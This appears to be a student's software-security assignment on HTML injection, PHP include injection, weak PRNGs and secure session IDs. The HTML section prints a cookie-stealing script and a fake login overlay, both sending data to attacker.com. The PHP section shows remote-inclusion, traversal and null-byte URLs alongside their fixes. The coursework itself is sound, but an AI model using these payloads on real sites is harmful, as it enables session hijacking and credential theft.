 # Assignment 2

**Author:** Waldemar Schwab  
**Created on:** 2024-05-12
**Fernuniversität Hagen** Software-Security

## Describe how an HTML-attack could be abused to gain access to credentials. (25)

A HTML attack can be realized on different ways. And always consists of different type (stored HTML Injection or Reflected HTML injection) and attack vecors. 
Vecots:

- Stored HTML Injection: Persistant attacks like entries in a Comment Section or in a blog.
- Reflected HTML injectio: URL-Injection when Parameters are not escaped the right way
  - these URLs can be sent via E-Mail or other communication tools
  - spread via forums and other (social) platforms 

Ways to steal credentials:

- Inject JS-Code and Replace original Login Form
  - Inject new Form fields
    - Hide original Form Field
    - Place your own Imput-Elements on site and replace the action path with somethin useful to you
- Inject JS-Code to exfiltrate original
  - before committing the Login Form intercept the login Progress and send the data to your own server.
- Skip the login-part and steal the Session-Cookie right away:
  - Use someting like `<script>var img=new Image();img.src='http://attacker.com/stealcookie.php?cookie='+document.cookie;</script>`
- Inject HTML and CSS code without JS
  - Hide original form fields via CSS (inline or siyle attribute)
    - add your own Input-Elements right via html
    - or just add a huge Login-Banner over the page: `<div style="position:absolute;top:0;left:0;width:100%;height:100%;z-index:1000;"><form action='http://attacker.com/capture_credentials.php' method='post'><input type='text' name='username'><input type='password' name='password'><input type='submit' value='Login'></form></div>`

## Explain how PHP-code-injections via include / require could be achieved - and prevented. (25)

There are different ways to manipulate the parameter of `include` or `require`. Multiple methods of exploitation are possible.

### Manipulation:

- When `include('content/' . $_GET['page'] . '.php');` is used, you can simply manipulate the URL and include files other than expected.
  - **Exploitation**: `http://example.com/?page=http://attacker.com/malicious`
    - A prepared file on a web server has to be provided by the attacker.
    - After successful infiltration, PHP code execution is possible and might give access to other sensitive files, e.g., database connection information, `/etc/passwd`.
    - This attack requires a PHP configuration setting like this: `allow_url_include = On`.
  - **Mitigation**:
    - Simply turn off the setting: `allow_url_include = Off`.

  - Let's continue with the last example and assume that `allow_url_include = Off` is set.

    - **Exploitation**: `http://example.com/?page=admin`
      - You might still be able to browse into other files: e.g., there might be an `admin.php` waiting for us, that could be accessed or database configuration might be stored somewhere in a PHP file.
      - You might need to extend this attack and upload your own file via another exploit, like unchecked file extensions on a picture-upload page on the same server.
      - **Mitigation**: Add input validation for expected values in `$_GET['page']`.

      ```php
      $allowedPages = ['home', 'about', 'contact']; // List of allowed pages
      $page = $_GET['page'] ?? 'default'; // Default page if none specified

      if (in_array($page, $allowedPages)) { ... }
      ```

      Moreover, you should add absolute paths instead of relative paths to block traversal movement and add error handling to prevent the next point I will mention:

      ```php
      define('BASE_PATH', realpath('content/')); // Ensure the base path is absolute and normalized
      $page = $_GET['page'] ?? 'default';
      if (in_array($page, $allowedPages)) {
          $filePath = BASE_PATH . '/' . $page . '.php';
          if (file_exists($filePath)) {
              include($filePath);
          } else {
              include(BASE_PATH . '/error.php');
          }
      } else {
          include(BASE_PATH . '/error.php');
      }
      ```

  - Error messages can give information about internal structures and so support further attacks.
    - **Exploit**: Attacker tries invalid values and the system returns full paths and names. E.g., the script is hosted at a free hoster and the attacker creates a free account and includes his own scripts with file access rights set to magical 777. So he is able to access his own scripts via 
    `http://example.com/?page=../../../attacker_user_on_freehost/haxx0r_file`
    - **Mitigation** Just like above.

  - Another exploit in very old versions was null byte injection: `http://example.com/?page=../../../etc/passwd%00`
    - **Exploitation**: Here, `%00` represents a null byte, which could effectively terminate the string at the desired location and potentially allow access to the `/etc/passwd` file. Modern PHP versions, however, are not susceptible to null byte injection.
    - **Mitigation**: Use supported and updated software versions.


## Discuss how PRNGs could put session-management at risk. (25)
Pseudo-Random Number Generators (PRNGs) are crucial in many aspects of computer security, including session management. Their role is to generate random values that are used, among other things, to create session identifiers (session IDs). However, the quality of the PRNG can significantly impact the security of the session management system. Here's how:

    Predictability: If a PRNG is predictable, it means that an attacker can anticipate future outputs of the generator after observing some of its past or current outputs. In the context of session management, if an attacker can predict the next session ID to be issued, they can potentially hijack a user's session by constructing the corresponding session cookie ahead of the legitimate user.

    Lack of Entropy: Good PRNGs require a source of high entropy to initialize their state (also known as a "seed"). If the entropy source is poor (e.g., predictable or contains little randomness), the numbers generated by the PRNG will be weak and more susceptible to prediction. For session management, low entropy could mean that session IDs might repeat or be easily guessed.

    Inadequate Seeding and Re-seeding: If a PRNG is not properly seeded or re-seeded periodically, it could start generating repeating patterns. For session management, this means an attacker could detect these patterns and use them to predict or replicate session IDs.

    Flawed PRNG Algorithms: Not all PRNGs are suitable for security-sensitive applications. Some PRNGs are designed for simulations or other non-security purposes and may have weaknesses that can be exploited. Secure session management requires cryptographic PRNGs that are designed to resist attacks and provide strong randomness.

    Implementation Vulnerabilities: Errors in how the PRNG is implemented can also introduce vulnerabilities. For instance, programming errors that lead to partial output leakage or improper handling of the PRNG's state could compromise the randomness of session IDs.

    State Compromise Attacks: If an attacker can access the internal state of a PRNG, they can replicate the PRNG's output entirely, effectively predicting all future session IDs. This could happen through various attack vectors, such as exploiting software vulnerabilities, side-channel attacks, or system intrusion.

## How would secure programming create session IDs? (25)

    - Use Cryptographically Secure PRNGs: Select a suitable CSPRNG designed for security-sensitive applications to generate random numbers for session IDs.
    - Ensure Sufficient Length and Complexity: Session IDs should be long enough (typically at least 128 bits) and include a complex mixture of characters to prevent attacks.
    - Proper Initialization and Seeding: Use high-entropy sources for CSPRNG seeding and ensure secure initialization to avoid predictable states.
    - Secure Storage and Handling: Transmit session IDs securely, utilize cookies with Secure, HttpOnly, and SameSite flags, and regenerate IDs at critical transitions.
    - Regular Updates and Patching: Keep libraries and frameworks used for session management up-to-date to mitigate vulnerabilities.
    - Monitoring and Anomaly Detection: Monitor session management for unusual patterns and implement anomaly detection systems.
    - Adherence to Standards and Best Practices: Follow guidelines from respected security organizations for secure session management practices.